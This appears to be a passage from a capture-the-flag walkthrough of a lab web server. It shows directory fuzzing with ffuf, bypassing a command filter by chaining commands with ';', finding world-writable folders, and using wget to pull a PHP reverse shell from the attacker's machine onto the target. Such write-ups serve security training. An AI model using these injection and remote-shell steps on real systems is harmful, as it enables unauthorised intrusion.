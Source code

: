 ```bash
ffuf -u http://10.10.96.247/FUZZ -w /usr/share/wordlists/dirb/common.txt 
```

```
secret                  [Status: 301, Size: 313, Words: 20, Lines: 10]
```

- However, there are some commands that are being filtered. 

- The `whoami` command is not filtered, so at least we know we execute commands under `www-data`.

- The filter can be bypassed by using a permitted command, ; and the filtered command. 

eg: `whoami;ls`

- I tried using `wget` to get a reverse shell from my box and even if the command is technically running, the file couldn't be transferred because the current directory seems to be owned by root and we don't have write permissions.

```
total 16
drwxr-xr-x 3 root root 4096 Oct  4  2020 .
drwxr-xr-x 8 root root 4096 Oct  3  2020 ..
drwxr-xr-x 2 root root 4096 Oct  3  2020 images
-rw-r--r-- 1 root root 1520 Oct  4  2020 index.php
```

- However, by using `whoami;/usr/bin` we can see a list of binaries available on the system. 

```
-rwxr-xr-x  1 root   root      4899864 May 26  2020 php7.2
```

- I was looking around the system to see if there's PHP installed and if I could leverage that to run my reverse shelll. 

- `php7.2` has execute permissions set for `others`, so we can use this to run our reverse shell once we find a writable path.

- I managed to find a writable folder by using

```bash
find / -type d -perm -o+w 2>/dev/null
```

```
/dev/mqueue
/dev/shm
/tmp
/run/screen
/run/lock
/var/lib/php/sessions
/var/tmp
/var/crash
```

- Then, I've moved over the reverse PHP shell from my box to the target using `whoami;cd /var/tmp;wget http://ip:port/shell.php`

```
whoami;ls /var/tmp

shell.php
```
